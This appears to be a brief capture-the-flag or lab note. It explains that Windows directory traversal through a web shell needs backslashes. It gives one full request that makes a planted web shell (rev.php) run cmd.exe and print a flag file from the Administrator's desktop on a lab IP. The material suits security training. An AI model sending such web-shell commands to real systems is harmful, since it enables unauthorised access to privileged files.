 
In Windows, certain path traversal methods like `cd ../../` may not work in `cmd.exe`, especially when used through web shells or remote command execution.

✅ Instead of using Unix-style paths, use **Windows-style backslashes (`\`)** for directory traversal.

```
http://10.129.203.7/rev.php?cmd=cmd.exe%20/c%20more%20..\..\Users\Administrator\Desktop\flag.txt
```